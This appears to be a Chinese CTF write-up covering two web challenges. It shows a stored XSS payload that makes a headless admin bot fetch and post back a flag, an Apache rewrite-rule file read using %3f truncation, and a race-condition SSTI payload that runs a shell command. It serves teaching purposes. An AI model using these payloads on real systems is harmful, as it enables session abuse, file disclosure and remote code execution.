



# 不出网下的XSS回显和apache配置解析的利用-先知社区

> **来源**: https://xz.aliyun.com/news/16808  
> **文章ID**: 16808

---

## MysteryMessageBoard

源代码main.go如下

```
package main

import (
    "context"
    "fmt"
    "log"
    "net/http"
    "sync"
    "time"

    "github.com/chromedp/chromedp" // 用于无头浏览器操作
    "github.com/gin-gonic/gin"     // Gin Web框架
    "github.com/gorilla/sessions"  // 会话管理
)

// 全局变量定义
var (
    store = sessions.NewCookieStore([]byte("fake_key")) // 创建一个基于cookie的会话存储
    users = map[string]string{                          // 用户名和密码映射
        "shallot": "fake_password",
        "admin":   "fake_password",
    }
    comments []string                      // 存储所有评论
    flag     = "FLAG{this_is_a_fake_flag}" // 标志（flag）
    lock     sync.Mutex                    // 互斥锁，用于保护对共享资源的并发访问
)

// loginHandler 处理用户登录请求
func loginHandler(c *gin.Context) {
    username := c.PostForm("username") // 获取表单中的用户名
    password := c.PostForm("password") // 获取表单中的密码

    // 验证用户名和密码是否匹配
    if storedPassword, ok := users[username]; ok && storedPassword == password {
        session, _ := store.Get(c.Request, "session") // 获取当前会话
        session.Values["username"] = username         // 将用户名存入会话
        session.Options = &sessions.Options{
            Path:     "/",   // 会话路径
            MaxAge:   3600,  // 会话有效期1小时
            HttpOnly: false, // 是否仅限HTTP访问
            Secure:   false, // 是否仅限HTTPS访问
        }
        session.Save(c.Request, c.Writer)  // 保存会话
        c.String(http.StatusOK, "success") // 返回成功信息
        return
    }
    log.Printf("Login failed for user: %s
", username) // 记录登录失败日志
    c.String(http.StatusUnauthorized, "error")          // 返回错误信息
}

// logoutHandler 处理用户登出请求
func logoutHandler(c *gin.Context) {
    session, _ := store.Get(c.Request, "session") // 获取当前会话
    delete(session.Values, "username")            // 删除会话中的用户名
    session.Save(c.Request, c.Writer)             // 保存会话
    c.Redirect(http.StatusFound, "/login")        // 重定向到登录页面
}

// indexHandler 处理主页请求
func indexHandler(c *gin.Context) {
    session, _ := store.Get(c.Request, "session") // 获取当前会话
    username, ok := session.Values["username"].(string)
    if !ok {
        log.Println("User not logged in, redirecting to login") // 记录未登录日志
        c.Redirect(http.StatusFound, "/login")                  // 重定向到登录页面
        return
    }

    // 处理POST请求，提交新评论
    if c.Request.Method == http.MethodPost {
        comment := c.PostForm("comment")
        log.Printf("New comment submitted: %s
", comment) // 记录新评论日志
        comments = append(comments, comment)               // 添加新评论到列表
    }

    // 构建HTML内容并返回给客户端
    htmlContent := fmt.Sprintf(`<html>
        <body>
            <h1>留言板</h1>
            <p>欢迎，%s，试着写点有意思的东西吧，admin才不会来看你！自恋的笨蛋！</p>
            <form method="post">
                <textarea name="comment" required></textarea><br>
                <input type="submit" value="提交评论">
            </form>
            <h3>留言:</h3>
            <ul>`, username)
    for _, comment := range comments {
        htmlContent += "<li>" + comment + "</li>"
    }
    htmlContent += `</ul>
            <p><a href="/logout">退出</a></p>
        </body>
    </html>`
    c.Data(http.StatusOK, "text/html; charset=utf-8", []byte(htmlContent)) // 返回HTML内容
}

// adminHandler 处理管理员页面请求
func adminHandler(c *gin.Context) {
    htmlContent := `<html><body>
        <p>好吧好吧你都这么求我了~admin只好勉为其难的来看看你写了什么~才不是人家想看呢！</p>
        </body></html>`
    c.Data(http.StatusOK, "text/html; charset=utf-8", []byte(htmlContent)) // 返回HTML内容

    // 使用无头浏览器模拟admin登录并访问主页
    go func() {
        lock.Lock()
        defer lock.Unlock()

        ctx, cancel := chromedp.NewContext(context.Background()) // 创建新的无头浏览器上下文
        defer cancel()

        ctx, _ = context.WithTimeout(ctx, 20*time.Second)    // 设置超时时间
        if err := chromedp.Run(ctx, myTasks()); err != nil { // 执行无头浏览器任务
            log.Println("Chromedp error:", err)
            return
        }
    }()
}

// myTasks 定义无头浏览器的操作任务
func myTasks() chromedp.Tasks {
    return chromedp.Tasks{
        chromedp.Navigate("/login"),                                  // 导航到登录页面
        chromedp.WaitVisible(`input[name="username"]`),               // 等待用户名输入框可见
        chromedp.SendKeys(`input[name="username"]`, "admin"),         // 输入用户名
        chromedp.SendKeys(`input[name="password"]`, "fake_password"), // 输入密码
        chromedp.Click(`input[type="submit"]`),                       // 点击提交按钮
        chromedp.Navigate("/"),                                       // 导航到主页
        chromedp.Sleep(5 * time.Second),                              // 等待5秒
    }
}

// flagHandler 处理获取标志（flag）请求
func flagHandler(c *gin.Context) {
    log.Println("Handling flag request") // 记录处理flag请求日志

    session, err := store.Get(c.Request, "session") // 获取当前会话
    if err != nil {
        c.String(http.StatusInternalServerError, "无法获取会话") // 返回内部服务器错误
        return
    }

    username, ok := session.Values["username"].(string)
    if !ok || username != "admin" {
        c.String(http.StatusForbidden, "只有admin才可以访问哦") // 返回禁止访问信息
        return
    }

    log.Println("Admin accessed the flag") // 记录admin访问flag日志
    c.String(http.StatusOK, flag)          // 返回flag内容
}

// main 函数是程序的入口
func main() {
    r := gin.Default() // 初始化Gin引擎

    // 注册路由
    r.GET("/login", loginHandler)
    r.POST("/login", loginHandler)
    r.GET("/logout", logoutHandler)
    r.GET("/", indexHandler)
    r.GET("/admin", adminHandler)
    r.GET("/flag", flagHandler)

    log.Println("Server started at :8888") // 记录服务器启动日志
    log.Fatal(r.Run(":8888"))              // 启动服务器并监听端口8888
}

```

审计代码我们发现，有一个模拟admin登录操作并且会返回到主页，再看flag需要admin的session才能拿到，想到xss的利用。

如果我们能用普通用户登录到首页，在评论中插入js代码（存储型XSS），当admin来到主页时触发XSS，让她访问flag路由拿到flag并回显写入评论区即可。

先用burpsuite爆出shallot密码888888  


登陆后在评论页面写入XSS poc:

```
<script>
    fetch("/flag")
        .then(response => response.text())
        .then(flag => {
        fetch("http://127.0.0.1:8888/", {
            method: "POST",
            headers: {
                "Content-Type": "application/x-www-form-urlencoded"
            },
            body: "comment=" + encodeURIComponent(flag)
        });
        })
        .catch(error => console.log("Error:", error));
</script>
```

然后我们访问admin，让她模拟登录触发XSS，再看评论区就回显带出了flag  


## 角落

访问robots.txt看到apache配置如下

```
# Include by httpd.conf
<Directory "/usr/local/apache2/app">
    Options Indexes
    AllowOverride None
    Require all granted
</Directory>

<Files "/usr/local/apache2/app/app.py">
    Order Allow,Deny
    Deny from all
</Files>

RewriteEngine On
RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/"
RewriteRule "^/admin/(.*)$" "/$1.html?secret=todo"

ProxyPass "/app/" "http://127.0.0.1:5000/"
```

* 目录访问控制

```
<Directory "/usr/local/apache2/app">
    Options Indexes
    AllowOverride None
    Require all granted
</Directory>

```

* `<Directory "/usr/local/apache2/app">`：这是针对 `/usr/local/apache2/app` 目录的配置。
* `Options Indexes`：启用了目录浏览功能，即如果请求的是目录而非文件，Apache 将列出该目录中的文件（适用于目录没有索引文件时）。
* `AllowOverride None`：不允许在该目录中使用 `.htaccess` 文件来覆盖该目录的配置。
* `Require all granted`：允许所有人（即所有来源的请求）访问该目录。
* 文件访问控制

```
<Files "/usr/local/apache2/app/app.py">
    Order Allow,Deny
    Deny from all
</Files>

```

* `<Files "/usr/local/apache2/app/app.py">`：针对指定文件 `/usr/local/apache2/app/app.py` 的配置。
* `Order Allow,Deny`：首先应用允许规则，再应用拒绝规则。
* `Deny from all`：禁止所有对该文件的访问。

这意味着 `/usr/local/apache2/app/app.py` 这个文件将被完全禁止访问，无论是通过浏览器还是其他 HTTP 请求。

* URL 重写

```
RewriteEngine On
RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/"
RewriteRule "^/admin/(.*)$" "/$1.html?secret=todo"

```

* `RewriteEngine On`：启用 URL 重写功能。
* `RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/"`：这条条件会检查请求的 `User-Agent` 字段是否以 `L1nk/` 开头。如果是，才会应用接下来的重写规则。
* `RewriteRule "^/admin/(.*)$" "/$1.html?secret=todo"`：如果请求的 URL 以 `/admin/` 开头（即 `RewriteRule` 匹配 `/admin/` 后面的部分），将会重定向到对应的 `.html` 文件，并附加查询字符串 `?secret=todo`。

例如，请求 `/admin/dashboard` 将被重定向到 `/dashboard.html?secret=todo`。

* 反向代理配置

`ProxyPass "/app/" "http://127.0.0.1:5000/"`

* `ProxyPass`：配置 Apache 将匹配到的请求转发（代理）到另一个服务器。
* `"/app/"`：如果请求的 URL 路径以 `/app/` 开头，则会转发给指定的地址。
* `"http://127.0.0.1:5000/"`：这些请求将被代理到 `127.0.0.1` 上的 `5000` 端口，通常是一个在本地运行的应用程序（例如 Flask 或其他 Web 应用框架的服务）。

这意味着当用户访问如 `/app/somepath` 这样的 URL 时，Apache 会将请求转发到本地的 Flask 服务（假设它在 5000 端口运行）。

我们关注这个：如果useragent以`L1nk/`开头就会启用RewriteRule规则，将括号匹配到的拼接上`.html`，这个解析问题其实在2024的balckhat中所提到，以根目录为起点，我们可以通过%3f（问号）截断，读取任意文件。

```
RewriteEngine On
RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/"
RewriteRule "^/admin/(.*)$" "/$1.html?secret=todo"
```

拿到源码  


```

from flask import Flask, request, render_template, render_template_string, redirect
import os
import templates

app = Flask(__name__)
pwd = os.path.dirname(__file__)
show_msg = templates.show_msg


def readmsg():
    filename = pwd + "/tmp/message.txt"
    if os.path.exists(filename):
        f = open(filename, 'r')
        message = f.read()
        f.close()
        return message
    else:
        return 'No message now.'


@app.route('/index', methods=['GET'])
def index():
    status = request.args.get('status')
    if status is None:
        status = ''
    return render_template("index.html", status=status)


@app.route('/send', methods=['POST'])
def write_message():
    filename = pwd + "/tmp/message.txt"
    message = request.form['message']

    f = open(filename, 'w')
    f.write(message) 
    f.close()

    return redirect('index?status=Send successfully!!')
    
@app.route('/read', methods=['GET'])
def read_message():
    if "{" not in readmsg():
        show = show_msg.replace("{{message}}", readmsg())
        return render_template_string(show)
    return 'waf!!'
    

if __name__ == '__main__':
    app.run(host = '0.0.0.0', port = 5000)
```

再读一下templates.py

```
show_msg = '''Latest message: {{message}}'''
```

审计代码，我们可以看到读文件功能有ssti漏洞，但是会检测`{`，直接断绝了这种可能。但是我们再看代码调用了两次`readmsg()`，如果我们条件竞争，其实就可以进入if进行ssti攻击

```
@app.route('/read', methods=['GET'])
def read_message():
    if "{" not in readmsg():
        show = show_msg.replace("{{message}}", readmsg())
        return render_template_string(show)
    return 'waf!!'
    
```

SSTI攻击poc如下

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag').read() }}
```

成功条件竞争命令执行  

